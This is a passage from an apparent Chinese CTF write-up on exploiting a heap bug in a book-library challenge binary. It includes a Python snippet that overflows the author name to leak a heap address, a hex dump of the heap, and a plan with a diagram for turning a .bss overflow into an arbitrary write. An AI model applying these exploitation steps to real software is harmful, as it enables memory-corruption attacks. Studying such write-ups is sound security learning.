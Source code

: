 ```python
        # todo: leak heap addr
        self.set_author_name("A" * 32)
        self.create(0x18, "B" * 0x18, 0x100, "C" * 0x100)  # 1
        self.detail()
        author = [ld["Author"] for ld in self.library_detail if ld["ID"] == "1"]
        assert len(author) == 1
        library0 = u64(author[0][32:] + "\x00\x00")
        print "leak library0 address: %s" % hex(library0)
```

泄露之后发现这个泄露的堆地址是 `0x55C106CBC2B0`，然后我们动态调式查看堆地址的内容可以发现：

```
000055C106CBC260  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  ........!.......
000055C106CBC270  4C 65 61 6B 48 65 61 70  00 00 00 00 00 00 00 00  LeakHeap........
000055C106CBC280  00 00 00 00 00 00 00 00  21 00 00 00 00 00 00 00  ........!.......
000055C106CBC290  4C 65 61 6B 44 65 73 63  00 00 00 00 00 00 00 00  LeakDesc........
000055C106CBC2A0  00 00 00 00 00 00 00 00  31 00 00 00 00 00 00 00  ........1.......
000055C106CBC2B0  01 00 00 00 00 00 00 00  70 C2 CB 06 C1 55 00 00  ........p.......
000055C106CBC2C0  90 C2 CB 06 C1 55 00 00  18 00 00 00 00 00 00 00  ................
000055C106CBC2D0  00 00 00 00 00 00 00 00  31 FD 01 00 00 00 00 00  ........1.......
```

容易看出，上面截取的地址是三个连续的堆块。`book name`、`book description` 与 `book` 三个内存块。

### get_addr_write

下面我们尝试获取任意地址写。同样根据上面的思路：

1. 我们通过 `.bss` 段的溢出漏洞，可以覆盖 `LIBRARY[0]` 的最低字节，从而更改它指向的地址。
2. 为了控制新的 `LIBRARY[0]`，可以通过将 `description` 的大小控制大于 `0x100`，这样 `LIBRARY[0]` 的地址就一定会落在它的 `Description` 上；
3. 我们将新的 `LIBRARY[0]` 的 `Decription` 指向 `LIBRARY[1]`，于是我们就可以通过 `LIBRARY[0]` 指定目标地址，通过 `LIBRARY[1]` 修改地址的内容；

画图说明逻辑更加直观。比如，原本有一个正常的两个分配的书块：

```
                             Heap Segment           
                                                    
                         +--------------------+     
                    0x18 | book1 name buffer  |     
                         ----------------------     
                   0x100 | book1 desc buffer  |     
+-----------+            ----------------------     
| library[0]|----------->| book1 seqnumber    |     
-------------       0x20 | book1 name ptr     |     
| library[1]|-+          | book1 desc ptr     |     
------------- |          | book1 desc size    |     
|  ......   | |          +--------------------+     
+-----------+ |          +--------------------+     
              |     0x20 | book2 name buffer  |     
              |          ----------------------     
              |     0x20 | book2 desc buffer  |     
              |          ----------------------     
              +--------->| book2 seqnumber    |     
                    0x20 | book2 name ptr     |     
                         | book2 desc ptr     |     
                         | book2 desc size    |     
                         +--------------------+     
```
